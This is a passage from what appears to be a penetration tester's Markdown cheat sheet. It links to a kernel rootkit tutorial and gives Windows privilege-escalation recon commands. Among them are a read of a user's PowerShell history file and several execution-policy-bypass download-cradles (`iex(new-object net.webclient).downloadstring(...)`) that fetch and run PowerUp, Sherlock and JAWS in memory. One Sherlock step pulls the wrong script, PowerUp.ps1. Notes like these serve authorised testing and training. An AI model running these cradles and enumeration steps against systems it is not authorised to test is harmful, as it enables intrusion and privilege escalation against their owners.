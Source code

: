 #### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)



### Windows


#### Recon

Powershell history:

```
PS > Get-Content C:\Users\snovvcrash\AppData\Roaming\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```

##### Tools

`winPEAS.bat` (winPEAS):

```
root@kali:$ git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/tools/privilege-escalation-awesome-scripts-suite
root@kali:$ cp ~/tools/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe . && python3 -m http.server 80
PS > (new-object net.webclient).downloadfile('http://127.0.0.1/winPEAS.exe', 'C:\Users\snovvcrash\music\winPEAS.exe')
```

`PowerUp.ps1` (PowerSploit):

```
root@kali:$ git clone https://github.com/PowerShellMafia/PowerSploit/ -b dev ~/tools/PowerSploit
root@kali:$ cp ~/tools/PowerSploit/Privesc/PowerUp.ps1 . && python3 -m http.server 80
PS > powershell.exe -exec bypass -nop -c "iex(new-object net.webclient).downloadstring('http://127.0.0.1/PowerUp.ps1')"
PS > Invoke-AllChecks |Out-File powerup.txt
```

`Sherlock.ps1`:

```
root@kali:$ wget https://github.com/rasta-mouse/Sherlock/raw/master/Sherlock.ps1 && python3 -m http.server 80
powershell.exe -exec bypass -nop -c "iex(new-object net.webclient).downloadstring('http://127.0.0.1/PowerUp.ps1')"
PS > powershell.exe -exec bypass -c "& {Import-Module .\Sherlock.ps1; Find-AllVulns |Out-File sherlock.txt}"
```

`jaws-enum.ps1` (JAWS):

```
root@kali:$ wget https://github.com/411Hall/JAWS/raw/master/jaws-enum.ps1 && python3 -m http.server 80
PS > powershell.exe -exec bypass -nop -c "iex(new-object net.webclient).downloadstring('http://127.0.0.1/jaws-enum.ps1')"
PS > .\jaws-enum.ps1 -OutputFileName jaws-enum.txt
```
